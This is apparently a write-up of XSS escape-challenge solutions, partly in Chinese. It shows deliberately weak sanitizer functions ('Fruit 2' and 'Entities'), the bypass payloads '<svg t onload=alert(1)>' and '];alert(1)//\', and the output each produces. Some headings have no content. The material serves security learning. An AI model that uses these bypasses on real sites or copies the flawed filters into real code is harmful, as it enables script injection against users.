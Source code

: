 <a name="a024"/></a>
### Fruit 2 （23）
```javascript
// CVE-2016-7650
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
payload
```html
<svg t onload=alert(1)>
```
Output
```html
<svg onload="alert(1)"></svg>
```

<a name="a025"/></a>
### Fruit 3

<a name="a027"/></a>
### Capitals

<a name="a028"/></a>
### Quine

<a name="a029"/></a>
### Entities (13)
```javascript
// submitted by securityMB
function escape(s) {
  function htmlentities(s) {
    return s.replace(/[&<>"']/g, c => `&#${c.charCodeAt(0)};`)
  }
  s = htmlentities(s);
  return `<script>
  var obj = {};
  obj["${s}"] = "${s}";
</script>`;
}
```
两个注入点，利用好注释符和转义字符
payload
```html
];alert(1)//\
```
Output
```html
<script>
  var obj = {};
  obj["];alert(1)//\"] = "];alert(1)//\";
</script>
```
